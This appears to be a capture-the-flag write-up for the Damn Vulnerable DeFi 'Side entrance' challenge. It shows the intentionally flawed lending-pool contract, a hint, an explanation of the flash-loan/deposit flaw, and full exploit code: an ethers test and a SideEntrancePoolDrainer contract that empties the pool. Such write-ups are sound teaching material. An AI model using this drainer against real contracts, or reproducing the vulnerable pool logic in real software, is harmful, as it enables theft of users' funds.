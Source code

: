 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 4: Side entrance'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our fourth challenge is called 'side entrance' and it comes with the following prompt:

```
A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool.
```

So all we have to do is drain the pool!

The contract for this challenge is located in contracts/side-entrance/. The contract code can be found below:

<details>
<summary> SideEntranceLenderPool.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/utils/Address.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    using Address for address payable;

    mapping (address => uint256) private balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
    }
}
```
</div>
</details>


The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
When we call execute on the receiver, what can we do with the passed callvalue that doesn't directly withdraw it but would allow us to access it in the future?
</div>
</details>



<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
``` 
The interface for the IFlashLoanEtherReceiver can be implemented by any contract that implements the `execute()` function. So, we can make a contract that implements `execute()` and if it calls the `flashLoan()` function then its `execute()` function will be called. 

Now what we notice is that `execute()` takes no parameters but it is sent a callvalue (the amount asked for in the flash loan). While the flash loan requires that we pay it back, we can use this value to increment our balances mapping by calling back into the `deposit()` function of the SideEntranceLenderPool contract. Once our balance is set to the loaned amount, we can continue the flash loan process by paying it back and execute the `withdraw()` function separately to drain the contract's funds.
```

</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const SideEntrancePoolDrainerFactory = await ethers.getContractFactory('SideEntrancePoolDrainer', deployer);
        this.se_attacker = await SideEntrancePoolDrainerFactory.deploy(this.pool.address);
        await this.se_attacker.attack(ETHER_IN_POOL);
        await this.se_attacker.payAttacker(attacker.address);
    });
```
</div>
</details>

<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*
 * @title SideEntrancePoolDrainer.sol
 * @author securerodd
 */
 interface ISideEntranceLenderPool { 
   function deposit() external payable;
   function withdraw() external payable;
   function flashLoan(uint256) external;
}

contract SideEntrancePoolDrainer {

    ISideEntranceLenderPool public pool;
    constructor(address _poolAddress) {
        pool = ISideEntranceLenderPool(_poolAddress);
    }

    function execute() external payable{
        pool.deposit{value: msg.value}();
    }

    function payAttacker(address _attacker) external payable {
        payable(_attacker).transfer(address(this).balance);
    }

    function attack(uint _amount) external {
        pool.flashLoan(_amount);
        pool.withdraw();
    }
    receive() external payable{
    }

}
```
</div>
</details>